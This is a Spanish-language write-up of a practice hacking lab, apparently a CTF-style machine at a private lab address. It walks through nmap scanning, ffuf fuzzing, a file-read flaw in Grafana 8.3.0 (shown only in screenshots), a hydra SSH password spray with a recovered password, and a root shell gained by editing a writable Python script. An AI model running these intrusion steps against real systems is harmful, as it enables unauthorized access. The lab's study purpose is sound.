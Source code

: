 Fecha: 03/09/2024

Empiezo escaneando la máquina: 
```bash
sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -Pn 172.17.0.2 -oN scan
```

![](../Imágenes/Pasted%20image%2020240903173808.png)

Compruebo el puerto 3000 y es grafana v8.3.0. 
Lo primero que hago es fuzzing para buscar algo interesante en el servidor http: 

```bash
ffuf -c -w /usr/share/wordlists/directory-list-2.3-medium.txt -u http://172.17.0.2/FUZZ  -e .php,.html,.txt,.js,.py -o fuzzing  
```

![](../Imágenes/Pasted%20image%2020240903174102.png)

Leyendo maintenance.html, encuentro lo siguiente:
![](../Imágenes/Pasted%20image%2020240903174130.png)

Paso a investigar sobre esa versión de grafana:
![](../Imágenes/Pasted%20image%2020240903174249.png)

Usaré el código que proporcionan para intentar abusar de la vulnerabilidad. Me permite leer un archivo, así que elijo el encontrado anteriormente:
![](../Imágenes/Pasted%20image%2020240903174534.png)

Ahora usaré hydra para probar esta contraseña con múltiples usuarios:
```shell
hydra -p t9sH76gpQ82UFeZ3GXZS  -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt ssh://172.17.0.2 -t 16 
```

![](../Imágenes/Pasted%20image%2020240903175020.png)

Accedo por ssh y compruebo permisos:
![](../Imágenes/Pasted%20image%2020240903175158.png)

Como puedo editar el script ya que freddy es el dueño, ejecutaré bash desde el mismo para convertirme en superusuario: 

```python
import os

os.system("/bin/bash")
```

![](../Imágenes/Pasted%20image%2020240903175702.png)

